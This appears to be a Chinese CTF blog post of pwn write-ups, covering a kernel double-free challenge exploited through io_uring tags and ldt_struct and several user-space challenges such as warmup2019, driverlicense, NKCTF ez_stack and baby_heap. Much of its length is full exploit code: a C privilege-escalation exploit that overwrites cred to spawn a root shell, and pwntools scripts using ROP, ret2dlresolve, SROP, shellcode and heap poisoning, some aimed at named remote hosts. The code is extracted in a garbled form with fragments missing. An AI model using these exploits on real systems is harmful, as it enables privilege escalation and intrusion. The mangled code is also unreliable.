1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 import reimport osfrom pwn import *lambda data :p.send(data)lambda delim,data :p.sendafter(delim, data)lambda data :p.sendline(data)lambda delim,data :p.sendlineafter(delim, data)lambda :p.recv()lambda numb=4096 :p.recv(numb)lambda delims, drop=True :p.recvuntil(delims, drop)lambda data :u32(data.ljust(4 , b'\0' ))lambda data :u64(data.ljust(8 , b'\0' ))lambda :p.interactive()lambda name,data : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)def debug (breakpoint ='' '/glibs/glibc-2.35/' 'directory %smalloc/\n' % glibc_dir'directory %sstdio-common/\n' % glibc_dir'directory %sstdlib/\n' % glibc_dir'directory %slibio/\n' % glibc_dir'directory %self/\n' % glibc_dir0 'b *{:#x}\n' .format (int (breakpoint ) + elf_base) if isinstance (breakpoint , int ) else breakpoint 'init-pwndbg\nni\n' )1 )'./bfc' False )'debug' , terminal = ['tmux' , 'splitw' ,'-hp' ,'62' ])
GAME
本来是文件系统的题目, 结果有一个很简单的非预期类似题目 . 就是init里面unmount放在了shell退出之后, 于是利用shell来覆盖unmount文件达到pop root shell的目的. 然后看看他的预期解 . 是作者自己找的CVE, 嗯…………wp写的挺混沌, 文字 示例代码 exp三者对不上号. 看了好几天.
看到内核模块的参数设置, 还有file->private_data这个随意使用的指针.
看到我有一本Linux Device Driver, 感觉可以看看(学不完了这是)
kmemdup_nulnull-terminated . 和使用max做参数的kstrndump相比使用给定的长度, 性能更好. gef抽风, 直接pull使用gef-remote失败, 使用示例image成功, 自己的又失败, 直接删掉重新git clone成功. 不知道啥问题, 反正解决了, 快照真好用.
gef-remote --qemu-user --qemu-binary vmlinux localhost 1234 新版gef remote
modify_ldr : syscall(SYS_modify_ldt, int func, void *ptr, long bytecount); func=1的时候是修改ptr->entry_number而不是读取(0). 无意间发现代佬的常用结构体集合 博客, 发现此题预期解前几步就在里面, 果然还是套路见少了.
io_uring 相关. 最全的英文文档 , 已下载. 看什么博客都不全, 连个io_uring_queue_init都找不到. 让我花点时间看看
tag
Each tag contains a maximum of PAGE_SIZE bytes. 至于什么是tag和table还得再看看.
我居然搜不到io_uring_register_buffers_tags的文档, 而且为啥tag是啥都不说的 , 难道是原本io的东西? 诶到时再看吧. 搜东西真累. man page都没有.
tag是二维数组. 第一维是8字节~0x1000(一个page)的子数组, 第二维是真正的tag数值, 通过copy_from_user从用户得到.
所以0x10的大小可以塞下一个子数组里两个tag值.
安装&困难
liburing将基本的系统调用包装了一下, 省去了手动建立io_uring instance的过程, 提供了一套更简单的接口. 即queue_init之类.
不懂IO操作会看的有一些困难. iovec就愣了一会儿. 找个时间看看原始的IO操作.
apt install liburing-dev 然后再gcc的时候加上链接选项-luring即可.
func
io_uring_setup 如名称一样只是setup一个io_uring结构体, 返回的fd还要手动mmap到进程空间中才能被内核与用户共享. submission和completion放在一个固定的offset上(通过macro). io_uring_queue_init with at least entries entries in the submission queue and then maps the file descriptor to memory shared between the application and the kernel.io_uring_register_buffers One of those is the ability to map a program’s I/O buffers into the kernel. 至于由tag的版本见上面.
看了几天居然有遗漏的地方, 难怪第一阶段就看不明白, reborn部分概括已修改. 好吧原来第一阶段的东西对后面有作用, 而且heap地址泄露完全和double free没有关系…..change()之后直接read就能读取heap地址….这是在搞啥啊. 终于看懂,
结论: 发现一条路径能够通过修改指针指向的位置, 那就去想能否改变指针从而达到任意写? 多注意malloc和free函数, delMaind分析就写几个字怎么能反应得到呢. 发现之前找FUSE的时候看到的一篇文章里开头就是uring. 链接在此 . 原网站挂了用的webarchive. 挺长的. 甚至还有一篇使用ebpf进行kernel pwn的文章 , 不知道啥时候有心情看. 都在kernel in all中.
typedef struct Maind unsigned long id ; char username[0x20 ];void *cur;void *prv;int random;struct mycdev {int len;unsigned char buffer[50 ];struct cdev cdev ;
module操作
open: kzmalloc一个Maind结构体放到file->private_data里面
read: 最多9字节, 从context->cur复制
release: private_data直接置空
unlocked_ioctl: 0 1 114 22. 这特么是重生模拟器么.
born: arg为username, 生成运气为ordinary, id=0.
reborn: cur移到prv, 生成unlucky和-114514的money. 很臭的金钱数. context->id++注意cur->magic移动到prv后并没有清空, 导致double free
change: arg为逗号分隔的等式, 左边为key_list, 右边可能为magic的字符串, 或money的钱数.
当key=flag时, 直接对cur->magic进行free.
delMaind: 就是删除. cur和prv都free, 在这里发生double free.
就是double free的利用. 其实挺简单的. 主要学到的东西是io_uring加上ldt_struct的利用
io_uring中的tag操作可以malloc一个二维数组size_t **tag, 还有一个update_tag函数可以修改内容. 第一二级数组都是分配在内核heap上, 还可以通过二级数组来控制一级数组分配的大小. 如果能控制一级数组的指针, 那就相当于一个任意写. 方法是…详见代码.
此时ldt的modify操作中分配了一个0x10字节ldt_struct结构体, 前8字节在read_ldt()系统调用中在内核态使用memcpy来读取任意长度 的ldt_struct->entries到用户区. 配合UAF漏洞可以和tag二级数组重合, 从而改变entries指针达到任意读.
最后找到cred结构体是通过第一步的heap指针往高处找(不知道为什么要跳到中间然后再前后找的方式). 发现设置好的进程名称后即可发现子进程的cred. 然后修改偏移查看哪个子进程提权了即可. 用到了SIGSTOP && SIGCONT. 属于是process spray(误).
wp 使用io_uring去修改ldt_struct结构体,
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 #define _GNU_SOURCE #include <stdio.h> #include <stdlib.h> #include <sys/prctl.h> #include <sys/syscall.h> #include <asm/ldt.h> #include <string.h> #include "liburing.h" int fd = -1 ;#define PAGESIZE 0x1000 #define ProcessNUM 0x30 #define UringNUM 0x20 pid_t processes[ProcessNUM];#define __ID__ "wawwwwww" struct io_uring ring , ring1 , ring2 ;struct ldt_struct {size_t entries;unsigned int nr_entries;int slot;void errExit (char * msg) printf ("[x] Error at: %s\n" , msg);exit (EXIT_FAILURE);void init_uring () 2 ,&ring, 0 );2 ,&ring1,0 );2 ,&ring2,0 );void register_tag (struct io_uring *ring,size_t *data,int num) char tmp_buf[0x2000 ];struct iovec vecs [num ];size_t tags[num];memcpy (tags,data,num*sizeof (size_t ));for (int i=0 ;i<num;i++){1 ;int res = io_uring_register_buffers_tags(ring,vecs,tags,num);if (res < 0 ){sprintf ("io_uring_register_buffers_tags %d\n" ,res));void update_tag (struct io_uring *ring,size_t Data,int num) char tmp_buf[1024 ];struct iovec vecs [2];0 ].iov_base = tmp_buf;0 ].iov_len = 1 ;1 ].iov_base = tmp_buf;1 ].iov_len = 1 ;int ret = io_uring_register_buffers_update_tag(ring, 0 ,vecs,Data,num);if (ret <0 ){sprintf ("io_uring_register_buffers_update_tag %d\n" ,ret));int spawn_processes () for (int i = 0 ; i < ProcessNUM; i++)pid_t child = fork();if (child == 0 ) {if (prctl(PR_SET_NAME, __ID__, 0 , 0 , 0 ) != 0 ) {"Could not set name" );uid_t old = getuid();uid_t uid = getuid();if (uid == 0 ) {puts ("Enjoy root!" );"/bin/sh" );exit (uid);if (child < 0 ) {return child;return 0 ;size_t find_cred (size_t heap) struct ldt_struct ldt ;char buf[PAGESIZE];size_t *result_addr;size_t cred_addr = -1 ;int pipe_fd[2 ];int res = pipe(pipe_fd);if (res)"pipe" );0x1000 )*0x1000 ;for (int i = 0 ; i < PAGESIZE*PAGESIZE ; i++)if (i && (i % 0x100 ) == 0 ){printf ("looked up range from %p ~ %p\n" ,heap - i * PAGESIZE,heap + i * PAGESIZE);memset (buf,0 ,PAGESIZE);8 ;2 );if (!fork()){int res = syscall(SYS_modify_ldt, 0 , buf, PAGESIZE);if (res == PAGESIZE){size_t *) memmem(buf, 0x1000 , __ID__, 8 );if (result_addr){printf ("\033[32m\033[1m[+] Found cred: \033[0m0x%lx\n" , result_addr[-2 ]);-2 ];1 ], &cred_addr, 8 );exit (0 );NULL );0 ], &cred_addr, 8 );if (cred_addr != -1 )break ;memset (buf,0 ,PAGESIZE);8 ;2 );if (!fork()){int res = syscall(SYS_modify_ldt, 0 , buf, PAGESIZE);if (res == PAGESIZE){size_t *) memmem(buf, 0x1000 , __ID__, 8 );if (result_addr){printf ("\033[32m\033[1m[+] Found cred: \033[0m0x%lx\n" , result_addr[-2 ]);-2 ];1 ], &cred_addr, 8 );exit (0 );NULL );0 ], &cred_addr, 8 );if (cred_addr != -1 )break ;return cred_addr;int spawn_root_shell () for (int i = 0 ; i < ProcessNUM; i++)while (wait(NULL ) > 0 );return 0 ;int main () struct user_desc desc ;size_t leak_heap,cred;size_t Data[0x1000 ];memset (Data,0 ,sizeof (Data));memset (&desc,0 ,sizeof (struct user_desc));char leak[0x10 ];"/dev/game" ,O_RDWR);if (fd == -1 )"fail to open dev" );0 ,0 );114 ,"flag=123456789" );1 ,0 );114 ,"flag=123456789" );1 , &desc, sizeof (desc));0x10 );size_t *)leak;if ((!leak_heap))"\033[31m[-] Could not leak heap_addr \033[0m" );printf ("\033[32m\033[1m[+] leak heap_addr: \033[0m0x%lx\n" , leak_heap);22 ,0 );0 ] = leak_heap;2 );"/dev/game" ,O_RDWR);if (fd == -1 )"fail to open dev" );0 ,0 );114 ,"flag=123456789" );1 ,0 );114 ,"flag=123456789" );8 + 1 );22 ,0 );0 ] = cred+4 ;2 );0 ] = 0 ;1 );for (int i = 0 ;i<3 ;i++){ 0 ] = cred+4 +8 *(i+1 );1 );0 ] = 0 ;1 );puts ("\033[32m\033[1m[+] Done \033[0m" );puts ("\033[31m[-] It should never be here \033[0m" );return 0 ;
idek2022 Coroutine 主要看肖佬的wp . 做一点个人补充.
什么是协程: 比较全的英文blog | CSDN官方文章 | cppref : 第二者的例子中并没有.resume操作, 直接sleep代替了, 不太完善.
非常全的 MS blog 太多了反而看不过来.
co_await co_yield co_return 有一个关键字该函数就算是协程. struct promise_type用于定义一类协程的行为, 编译器还会把coroutine_handle紧挨着promise_type一起放在协程栈帧的开头.Promise type is determined by the compiler from the return type of the coroutine using std::coroutine_traits . 而跟在co_wait后的是一个struct, 定义了 await_ready、await_suspend 和 await_resume 方法的类型.
co_wait展开后是如下红色区域, 在主线程创建新线程后, 满足一定条件时会返回caller, 当可以继续执行时在主线程执行handle.resume(), 子线程就会继续执行协程中剩余代码. 一个代码例子 .
尝试复现中遇到一点小问题:
代码例子中编译选项要加上-fcoroutines.
vscode无法识别coroutine, 要在C++ Intellisense->Cpp standard选择C++20.
一看代码没发现bind, 结果是直接使用默认port, 然后stdout传给py脚本, 再用socat来export特定端口(12345).
复习了std::span和std::optional.
final_suspend()在cppref都搜不到怎么suspend. 好吧有一句calls promise.final_suspend() and co_awaits the result. 所以说final_suspend可以返回Awaiter, 而不是简单直接的never_suspend.
triathlon warmup2019 32位程序 . libc疑似2.23, 太低了都跑不起来. woc下载了2.24之后chlibc跑起来了. 之前的工作还是整得不错.
atoi可返回负数, 然后使用alloca把esp弄到返回地址处, 然后使用one_gadget. 条件中看到got address of libc,0x1b0000通过readelf -d libc.so | grep PLTGOT得到的value. 而且main函数中没有stack canary check, 只有装载(还能这样).
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 0x3a80c execve("/bin/sh" , esp+0x28 , environ) 0x28 ] == NULL 0x3a80e execve("/bin/sh" , esp+0x2c , environ) 0x2c ] == NULL 0x3a812 execve("/bin/sh" , esp+0x30 , environ)0x30 ] == NULL 0x3a819 execve("/bin/sh" , esp+0x34 , environ)0x34 ] == NULL 0x5f065 execl("/bin/sh" , eax)NULL 0x5f066 execl("/bin/sh" , [esp])NULL
怕不是因为one_gadget给我默认了64位操作, 然后constraints是寄存器啊. 没事了确实可以, 换成下载好的libc即可
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 import reimport osfrom pwn import *lambda data :p.send(data)lambda delim,data :p.sendafter(delim, data)lambda data :p.sendline(data)lambda delim,data :p.sendlineafter(delim, data)lambda :p.recv()lambda numb=4096 :p.recv(numb)lambda delims, drop=True :p.recvuntil(delims, drop)lambda data :u32(data.ljust(4 , b'\0' ))lambda data :u64(data.ljust(8 , b'\0' ))lambda :p.interactive()lambda name,data : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)def debug (breakpoint ='' '/glibs/glibc-2.23/' 'directory %smalloc/\n' % glibc_dir'directory %sstdio-common/\n' % glibc_dir'directory %sstdlib/\n' % glibc_dir'directory %slibio/\n' % glibc_dir'directory %self/\n' % glibc_dir0 'b *{:#x}\n' .format (int (breakpoint ) + elf_base) if isinstance (breakpoint , int ) else breakpoint 'init-pwndbg\nni\n' )1 )'./warmup2019.elf64' '/glibs/2.23-0ubuntu11.3_i386/libc-2.23.so' )False )'debug' , terminal = ['tmux' , 'splitw' ,'-hp' ,'62' ])'printf' ]'printf' ]0x80484B0 b'b' *16 , plt_put, addr_start, got_put])'size >> ' )'-128' )'content >> ' )'name >> ' )'printf' ]4 ))'libc_base' , libc_base)0x5fbd5 0x080487a9 0x1b3000 b'b' *16 , pop_esi, libc_got, b'b' *4 *2 , one_gadget, addr_start])'size >> ' )'-128' )'content >> ' )0x08048730 )'name >> ' )
好基础的题目, 都快写的不利索了.
junk 居然做了一道rev题目, 花指令加上中国剩余定理解线性同余方程组, 没啥好说的.
还有简单堆题和格式化字符串, 都没看出来是啥. 绝了.
fmtstr 看着名字就挺简单的, 但是居然没有做出来…
只有main->notice函数中有fmtstr:
int notice () while ( 1 )0 , s1, 0x30 uLL);0x5555555580B0 ] = 0 ;if ( !strncmp (s1, "fakepwn" , 7uLL ) )break ;printf ("Your password " );printf (s1);puts (" is wrong, plz try again" );return puts ("password check ok" );
第六行属实意义不明, 是bss段中的一个位置, 但是watch地址之后全过程只有这里改变了值. 原来是s1末尾强制加上了空字符.
执行到L10时, 发现rsi在库函数执行中改变了值, 是栈上的指针, 而且比当前的栈位置还要高(低地址). 估计只是个临时存放的位置.
用这个来leak地址: %p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
发现在第九个参数上有libc的地址, 可以-0x227620计算得到libc_base, 然后加上0xe6af1得到要求r15和rdx为空的one_gadget. 正好发现在main函数返回时这两个为NULL.
继续可以发现这第九个就是main返回地址. 构造:
??????????????????????????????不知道怎么做了.
driverlicense 会了之后就挺简单的, 就是过程有点坎坷.
简单说来就是string的operator=对于小于15/charT(一般是15)的长度的字符串会存放在32字节中后16字节的buffer union中. main函数中canary上面的一个72字节数组成员为两个string加上一个四字节year(实际8字节,但没用), update函数是写入点, show函数是泄露点, 而前者发现对c_str(lic_struct.comment)(即取出string开始8字节的指针)执行malloc_usable_size函数, 这个函数对于存放数据于缓冲区的string来说会生成一个巨大的值, 而read_raw逐字节读取的循环变量是无符号的, 这样漏洞点就明了了起来, 在这里发生越界写入, 覆盖lic_struct.name成员, 修改指针完成任意读原语, 最后栈溢出+刚得到的canary值覆盖main返回地址, 成功pop shell.
我这里的卡点在于:
第一步, 发现<=15会在buffer上, 用了四五十分钟, 还是在不断的尝试中发现先写一个短字符串然后update稍长一点输出并没有改变, 进而发现cout是根据length来输出string的; 发现先写一个短的, 然后非常长的, 发现段错误, 返回地址被改写, 发现是分配在stack buffer中.
第二步, 一点点写出exp框架, 写一点测试一点, 发现并不知道stack地址, 查得要使用libc中的environ变量.
第三步, 远程发现环境不对, 不知道environ到canary的偏移, 调了一会肉眼看出偏差. 代码没全改过来卡了一会, 怀疑string析构发现指针没指向buffer就会调用free, 进而导致释放非法块: munmap_chunk(): invalid pointer: 0x00007fff1dd8bfe0. 所以name的指针要对.
然后发现canary不对, 结果是漏了一个year成员少了8字节.
然后又发现one_gadget返回EOF. 结果不明, 换成ROP又算错偏移卡了一会儿.
最后十分钟已经做出, 结果错的太多愣是没发现没报错也没EOF. 最后五分钟内终于在一点点改/bin/sh字符串的时候确定已经pop成功了…..
大概用了三个多小时吧, 总算没零封了.
命运之多舛啊………………….
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 from pwn import *lambda data :p.send(data)lambda delim,data :p.sendafter(delim, data)lambda data :p.sendline(data)lambda delim,data :p.sendlineafter(delim, data)lambda keep=True :p.recvline(keep)lambda numb=4096 :p.recv(numb)lambda delims, drop=True :p.recvuntil(delims, drop)lambda data :u32(data.ljust(4 , b'\0' ))lambda data :u64(data.ljust(8 , b'\0' ))lambda :p.interactive()lambda name,data : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)def debug (breakpoint ='' if args.REMOTE or (not args.DBG): return 0 'b *{:#x}\n' .format (int (breakpoint ) + elf_base) if isinstance (breakpoint , int ) else breakpoint 'init-pwndbg\nni\n' )1 )'./libc-2.23.so' if args.REMOTE else '/lib/x86_64-linux-gnu/libc.so.6' './pwn.elf64' True ) if not args.REMOTE else remote("172.31.0.49" , 10001 )'debug' , terminal = ['tmux' , 'splitw' ,'-hp' ,'62' ])b'01' );sl('2' )b'\xde\xad' ) b'comment >> ' )def change_name_ptr (ptr ):b'1' )b'b' *16 , ptr, 0x100 ])b'comment >> ' )0x602028 )def leak ():b'2' )b'name : ' )return rc(200 )8 ])'read_got:' , read_got)'read' ]'libc base:' , libc.address)'environ' ]8 ])'some stack addr:' , stack_addr)0x140 'canary addr:' , canary_addr)8 ])'canary' , canary)0x45216 b'1' )'system' ]next (libc.search(b'/bin/sh' ))'./pwn.elf64' )b'b' *16 , canary_addr-0x18 , 0 , b'b' *0x18 , canary, b'b' *0x18 , 0x40150B )
NKCTF 五分钟内解决的签到题就不说了.
a_story_of_a_pwner 找了半天one_gadget发现用libc自带的system+/bin/sh不就完了……….简单的栈迁移题目, 1-3的选项的输入恰好构成迁移后的栈内容. 而且用到了pop rsp + r13r14r15 + ret, 需要空出位置给r**寄存器.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 from pwn import *lambda data :p.send(data)lambda delim,data :p.sendafter(delim, data)lambda data :p.sendline(data)lambda delim,data :p.sendlineafter(delim, data)lambda keep=True :p.recvline(keep)lambda numb=4096 :p.recv(numb)lambda delims, drop=True :p.recvuntil(delims, drop)lambda data :u32(data.ljust(4 , b'\0' ))lambda data :u64(data.ljust(8 , b'\0' ))lambda :p.interactive()lambda name,data : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)def debug (breakpoint ='' if args.REMOTE or (not args.DEBUG): return '/glibs/glibc-2.31/' 'directory %smalloc/\n' % glibc_dir'directory %sstdio-common/\n' % glibc_dir'directory %sstdlib/\n' % glibc_dir'directory %slibio/\n' % glibc_dir'directory %self/\n' % glibc_dir0 'b *{:#x}\n' .format (int (breakpoint ) + elf_base) if isinstance (breakpoint , int ) else breakpoint 'init-pwndbg\nni\n' )1 )'./libc.so.6' if args.REMOTE else '/glibs/2.31-0ubuntu9_amd64/libc-2.31.so' './pwn.elf64' False ) if not args.REMOTE else remote()'debug' , terminal = ['tmux' , 'splitw' ,'-hp' ,'62' ])b'4\n' )b'this. ' )int (rl(False ), 16 )0x40156d b'b' *(10 +8 ), pop_rsp_r1345, p64(0x4050A0 -0x8 *3 )[:6 ]])assert (len (pl) <= 0x20 )0x401573 'puts' ]'libc_base' , libc_base)'system' ]next (libc.search(b'/bin/sh' ))b'2\n%b' % p64(pop_rdi)) b'1\n%b' % p64(addr_binsh)) b'3\n%b' % p64(addr_system)) 0x40139D )b'4\n' +pl)
only_read 简单东西, 但是没看出来base64编码….
更多的几行字写在ctf补充里.
使用了ret2dlresolve, 但是呢, 也可以这样:
栈迁移到bss段, 再次执行__libc_start_main最终调用next(), 在bss段写入了libc中的地址. 然后使用任意地址加 把这个地址加到one_gadget上面. 可能再调整下寄存器的地址, 不过这也没啥限制了.
也可以使用任意地址加直接修改got表地址, 还要更快. 不过要设置ROPgadget的depth为20, 长一点才能输出更多的gadgets.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 from pwn import *lambda data :p.send(data)lambda delim,data :p.sendafter(delim, data)lambda data :p.sendline(data)lambda delim,data :p.sendlineafter(delim, data)lambda keep=True :p.recvline(keep)lambda numb=4096 :p.recv(numb)lambda delims, drop=True :p.recvuntil(delims, drop)lambda data :u32(data.ljust(4 , b'\0' ))lambda data :u64(data.ljust(8 , b'\0' ))lambda :p.interactive()lambda name,data : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)def debug (breakpoint ='' if args.REMOTE or (not args.DBG): return '/glibs/glibc-2.31/' 'directory %smalloc/\n' % glibc_dir'directory %sstdio-common/\n' % glibc_dir'directory %sstdlib/\n' % glibc_dir'directory %slibio/\n' % glibc_dir'directory %self/\n' % glibc_dir0 'b *{:#x}\n' .format (int (breakpoint ) + elf_base) if isinstance (breakpoint , int ) else breakpoint '\ninit-pwndbg\nni\n' )1 )'./libc.so.6' if args.REMOTE else '/glibs/2.31-0ubuntu9_amd64/libc-2.31.so' './pwn.elf64' True ) if not args.REMOTE else remote()'debug' , terminal = ['tmux' , 'splitw' ,'-hp' ,'62' ])b'V2VsY29tZSB0byBOS0NURiE=' b'dGVsbCB5b3UgYSBzZWNyZXQ6' b'SSdNIFJVTk5JTkcgT04gR0xJQkMgMi4zMS0wdWJ1bnR1OS45' b'Y2FuIHlvdSBmaW5kIG1lPw=' 0x401660 0x40167A def csu_call (pointer, edi=0 , rsi=0 , rdx=0 , pivot=0 , rbx=0 ):0 , 1 , edi, rsi, rdx, pointer, csu_front])if pivot != 0 :b'a' *0x10 , pivot-8 , b'b' *(0x38 -0x10 -0x8 )])else :b'a' *0x8 , rbx, b'b' *(0x38 -0x10 )])return payload'.bss' ).header.sh_addr'.rela.plt' ).header.sh_addr'.dynsym' ).header.sh_addr'.dynstr' ).header.sh_addr'.plt' ).header.sh_addr0x400 + 0x18 *110 'read' ]'base' , base)'b' *0x38 )0 , base, 0x1000 , pivot=base))'migrate rop len' , len (rop.chain()))72 + 8 '/bin/sh\x00' int ((base + 48 - rel_plt) // 0x18 )0 ) 48 96 'read' ]0x18 +1 32 ) | 0x7 0 ]) b'b' *8 )'system\x00' )'c' *(96 +8 -len (rop.chain())))72 + 16 ) - dynstr0x12 ) + p16(0 ) + p64(0 ) + p64(0 )'final rop len' , len (rop.chain()))0x15555553710b )
ez_stack 简单东西 SROP 仅贴出非模板的部分
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 syscall_ret = 0x40114E 0x401146 0x401283 0x4011DC b'\x00' *(16 +8 ), syscall_ret, pop_rdi, 1 , syscall_ret, vuln_read])b'\xaa' )0x68 :0x70 ])'stack_addr' , stack_addr)b'/bin/sh\x00' + b'b' *(8 +8 ) + p64(mov_rax_0xf) + p64(syscall_ret)0xe0 0 0 bytes (frame)
看到个更简单的, 都不用leak, 直接修改nkctf字符串, 然后
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 syscall = 0x40114e 0x404040 0x401146 59 0 0 b'a' * 0x18 + p64(0x4011c8 )'NKCTF!\n' , p1)1 )b'/bin/sh\x00' )1 )b'a' * 0x18 + p64(ax_0xf) + p64(syscall) + flat(sigframe)
9961 这个目的是xmm寄存器藏东西. 新知识get
但是也可以直接执行, 居然刚好21字节…. cdq的符号拓展(RDX:RAX)可以让edx置为0.
shellcode = ''' xor rsi, rsi lea rdi, [r15 + 0xe] cdq mov ax, 59 syscall ''' b"/bin/sh"
期望是xmm6 leak libc地址.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 ru(b'shellcode!\n\n' )''' movq rsp, xmm6 and eax,1 and edi, eax push rsp pop rsi syscall xor eax, eax xor edi, edi syscall ret ''' )b'it!\n' )b'\x7f' )[-6 :].ljust(8 , b'\x00' ) )b'\x7f' )[-6 :].ljust(8 , b'\x00' ) )'leak_addr ' , leak_addr)0x1f2000 'libc_base' , libc_base)0x23b6a 0x2601f 0x142c92 'mprotect' ]'read ' ]next (libc.search(b'/bin/sh\x00' ))'system' ]0x22679 0x9961000
baby_heap http://blog.xmcve.com/2023/03/27/NKCTF-2023-Writeup/#title-34
2.32下的off-by-one
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 from pwn import *'amd64' , os='linux' , log_level='debug' )'./pwn' lambda x : print ('\x1b[01;38;5;214m' + x + '\x1b[0m' )lambda x : print ('\x1b[01;38;5;1m' + x + '\x1b[0m' )'tmux' ,'splitw' ,'-h' ]1 if debug:'node.yuzhian.com.cn' , 32892 )else :def dbg ():def dbgg ():'Your choice: ' def add (index, size ):'1' )'Enter the index: ' , str (index))'Enter the Size: ' , str (size))def delete (index ):'2' )'Enter the index: ' , str (index))def edit (index, content ):'3' )'Enter the index: ' , str (index))'Enter the content: ' , content)def show (index ):'4' )'Enter the index: ' , str (index))0 , 0x28 )1 , 0x38 )2 , 0x40 )3 , 0x40 )1 )''' p1 = b'\x00' * 0x28 + b'\x91' edit(0, p1) ''' 1 , 0x38 )1 )5 ).ljust(8 , b'\x00' ))12 'heap_base = ' + hex (heap_base))for i in range (4 , 12 ):0x88 )12 , 0x88 )13 , 0x88 )for i in range (4 , 13 ):for i in range (4 , 12 ):0x88 )11 )'\x7f' )[-6 :].ljust(8 , b'\x00' )) - 368 - 0x10 'malloc_hook = ' + hex (malloc_hook))'./libc-2.32.so' )'__malloc_hook' ]'__free_hook' ]'free_hook = ' + hex (free_hook))0xdf54c , 0xdf54f , 0xdf552 ]1 ] + libc_base12 , 0x88 )b'\x00' * 0x28 + b'\x91' 0 , p1)1 )1 , 0x88 )14 , 0x40 )14 )2 )b'b' * (8 * 7 ) + p64(0x51 ) + p64(key ^ free_hook) + b'\n' 1 , p2)15 , 0x40 )4 )4 , 0x40 )4 , p64(one_gadget) + b'\n' )0 )
Bytedance 原题https://juejin.cn/post/6844903816031125518#heading-8
大致思路是利用malloc_consolidate将fastbin整合进unsortedbin，这样才能利用offbynull，其中的trick在于scanf接收过长字符会临时申请一个largechunk 。
angstorm23 leek noleek 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 #include <stdio.h> #include <stdlib.h> #define LEEK 32 void cleanup (int a, int b, int c) int main (void ) stdout , NULL );"/dev/null" , "w" );if (leeks == NULL ) {puts ("wtf" );return 1 ;printf ("leek? " );char inp[LEEK];stdin );fprintf (leeks, inp);printf ("more leek? " );stdin );fprintf (leeks, inp);printf ("noleek.\n" );0 , 0 , 0 );return 0 ;
相关题目链接
Zh3R0 CTF 2021 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 #include <stdint.h> #include <stdio.h> #include <stdlib.h> #include <unistd.h> char *buffer;uint64_t i = 0x8d9e7e558877 ;_Noreturn main () {uint64_t *p;stdin , 0 );char *)malloc (0x20 + 1 );"/dev/null" , "wb" );0x1f , stdin );if (i != 0x8d9e7e558877 ) {1337 );else {1337 ;fprintf (fp, buffer);1 );
slack 保护全开.
This C code defines a simple command-line chat program that simulates a conversation with a bot. The program displays messages from the bot, allows the user to input their message, and then displays the messages with timestamps. Here’s a breakdown of the code:
Variable declarations, including time_t, struct tm, and character arrays for storing time and messages.
Initialization of the stack canary for security purposes.
Disabling buffering for the standard output and standard input to allow real-time interaction.
Restricting the process’s group permissions.
Printing a welcome message.
Getting the current time and initializing the random number generator.
Main loop (3 iterations) for the chat interaction:
Getting the current time and formatting it as a string.
Generating a random message from the bot (assuming there’s an array called messages).
Printing the bot’s message with a timestamp.
Prompting the user to enter their message and reading it using fgets.
